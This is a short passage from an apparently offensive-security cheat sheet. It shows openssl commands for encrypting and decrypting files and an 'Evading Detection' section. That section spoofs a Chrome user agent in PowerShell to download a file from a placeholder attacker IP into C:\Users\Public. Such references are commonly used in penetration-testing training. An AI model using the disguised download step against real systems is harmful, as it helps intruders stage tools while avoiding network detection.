<summary><h3>openssl</h3></summary>

Encrypting file  

```bash
openssl enc -aes256 -iter 100000 -pbkdf2 -in <FILE> -out <ENCRYPTED FILE>
```

Decrypting file   

```bash
openssl enc -d -aes256 -iter 100000 -pbkdf2 -in <ENCRYPTED FILE> -out <FILE>                    
```

</details>
</details>
</details>

---

<details>
<summary><h1>👻 Evading Detection</h1></summary>

&nbsp;&nbsp;&nbsp;&nbsp;<details>
<summary><h2>Changing User Agent</h2></summary>

**Listing out User Agents**

```powershell
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
```

**Request with Chrome User Agent**
```powershell
$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome

Invoke-WebRequest http://<IP>/<FILE> -UserAgent $UserAgent -OutFile "C:\Users\Public\<OUTPUT FILE>"
```

</details>
</details>

---

📘 **Next step:** Continue with [SHELLS & PAYLOADS](./05-shells-payloads.md)
